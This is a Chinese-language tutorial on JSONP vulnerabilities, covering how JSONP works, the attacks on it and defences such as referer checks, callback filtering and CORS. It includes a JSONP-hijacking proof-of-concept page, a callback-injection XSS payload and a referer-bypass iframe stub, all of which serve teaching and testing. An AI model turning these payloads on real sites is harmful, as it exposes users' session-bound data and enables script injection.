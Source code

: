 JSONP 漏洞
====================

基本概念
--------

什么是 JSONP？
~~~~~~~~~~~~~~
JSONP (JSON with Padding) 是一种用于解决浏览器同源策略限制的跨域数据获取技术。其核心原理是利用 ``<script>`` 标签不受同源策略限制的特性，通过动态创建脚本标签从不同域获取 JSON 数据。

工作流程
^^^^^^^^
+ 1. 客户端定义回调函数: ``function handleData(data) { ... }``
+ 2. 创建动态脚本标签: ``<script src="https://api.example.com/data?callback=handleData">``
+ 3. 服务端返回包装后的数据: ``handleData({"user":"admin","email":"admin@example.com"});``
+ 4. 客户端自动执行回调函数处理数据

漏洞原理
--------

核心安全问题-设计特性
~~~~~~~~~~~~~~~~~~~~~
+ 1. 自动携带凭据
	- 浏览器会在 JSONP 请求中自动发送目标域的 Cookies
	- 包括身份验证会话 (Session ID)

+ 2. 缺乏内置安全机制
	- 无 CORS 式的源验证
	- 依赖开发者手动实现安全控制

+ 3. 动态脚本执行
	- 服务端响应作为脚本直接执行
	- 允许攻击者控制回调函数

漏洞利用场景
------------

攻击类型 1: JSONP 劫持
~~~~~~~~~~~~~~~~~~~~~~~

攻击步骤
^^^^^^^^
+ 常见接口
	::
	
		callback=attack
		cb=attack
		call=attack
		jsonp=attack
		jsonpcallback=attack
		jsonpcb=attack
		json=attack
		jsoncallback=attack
		jcb=attack

+ 示例
	- 接口: ``http://www.xxx.com/interface?callback=attack``
	- 返回数据: ``attack({"value":1})``
+ 构造POC
	::
	
		<!DOCTYPE html>
		<html lang="en">
		<head>
			<meta charset="UTF-8">
			<title>jsonp劫持</title>
			<script src="js/jquery.min.js"></script>
		</head>
		<body>
		<script type="text/javascript">
			$.ajax({
				url:"http://xxx.com/interface",
				dataType:"jsonp",
				jsonp:"callback",
				jsonpCallback:"attack",
				success:function (data) {
					alert(data.value)
				}
			})
		</script>
		</body>
		</html>
		
		注意：
		jsonp 填写回调参数的名字
		jsonpcallback 就是回调参数的值
		alert 的地方根据需要更改取值
		如果能正常取到值，就说明漏洞存在了

攻击类型 2: JSONP XSS
~~~~~~~~~~~~~~~~~~~~~
当回调函数名未过滤时，可注入任意代码::

  https://victim.com/api?callback=alert(document.domain)//

服务端返回::

  alert(document.domain)//({"data": "value"});

导致 XSS 漏洞执行

现代浏览器防护
--------------

安全改进措施
~~~~~~~~~~~~

+----------------------+-----------------------------------------------+
| 防护机制             | 防护效果                                      |
+======================+===============================================+
| Strict Referer Policy| 跨域请求时移除 URL 路径和参数                 |
+----------------------+-----------------------------------------------+
| Default CORS         | 成为跨域请求标准解决方案                      |
+----------------------+-----------------------------------------------+
| Content-Type 校验    | 阻止浏览器将响应解析为脚本                    |
+----------------------+-----------------------------------------------+

绕过技术示例
~~~~~~~~~~~~~
1. 空 Referer 利用::

    <iframe src="javascript:'<script>function steal(){...}</script><script src=...></script>'"></iframe>

2. 宽松正则绕过::

    合法域名: api.example.com
    绕过域名: api.attacker.example.com

3. 子域接管攻击

防御措施
--------

服务器端防护
~~~~~~~~~~~~
.. code-block:: python

    # 严格 Referer 检查
    valid_domains = ['https://trusted.com', 'https://app.trusted.com']
    if request.headers.get('Referer') not in valid_domains:
        return Response("Forbidden", status=403)

    # 回调函数名过滤
    import re
    callback = request.args.get('callback', '')
    if not re.match(r'^[a-zA-Z0-9_\.]+$', callback):
        return Response("Invalid callback", status=400)

客户端防护
~~~~~~~~~~
1. 弃用 JSONP，改用 CORS::

    // 服务端设置
    Access-Control-Allow-Origin: https://trusted.com
    Access-Control-Allow-Credentials: true

2. 敏感操作使用 POST + CSRF Token

漏洞验证工具
------------
.. list-table:: JSONP 测试工具
   :header-rows: 1

   * - 工具名称
     - 用途
   * - Burp Suite
     - 自动检测 JSONP 端点
   * - JSONP Hunter
     - 自动化漏洞验证
   * - Custom Script
     - 手动验证回调控制

.. code-block:: bash

    # 使用 curl 测试
    curl -I "https://victim.com/api?callback=test"
    # 检查响应头中是否存在安全控制
    常见的CORS响应头及其作用：
    Access-Control-Allow-Origin ：指明哪些源可以访问资源。如果该头的值设置为 * ，则允许所有源访问资源，但不包括携带凭证（如cookies）的请求。
    Access-Control-Allow-Methods ：指明服务器支持的跨域请求方法，如 GET 、 POST 等。
    Access-Control-Allow-Headers ：指明哪些自定义头字段是允许的。
    Access-Control-Allow-Credentials ：当设置为 true 时，表明浏览器可以携带凭证信息（如cookies）进行跨源请求。
    Access-Control-Expose-Headers ：指示哪些响应头可以被浏览器读取

结论
----
+ 1. JSONP 漏洞在 **2025 年仍然存在**，但主要影响：
	- 未实施正确防护的遗留系统
	- 实现存在缺陷的新系统
+ 2. 现代浏览器默认安全策略已大幅降低攻击成功率
+ 3. 推荐解决方案：
	- 新系统使用 CORS 替代 JSONP
	- 旧系统强化 Referer 检查和回调过滤
	- 敏感数据接口禁用 JSONP

参考资源
--------
- OWASP JSONP 安全指南: https://owasp.org/jsonp
- CORS vs JSONP 对比: https://web.dev/cors-vs-jsonp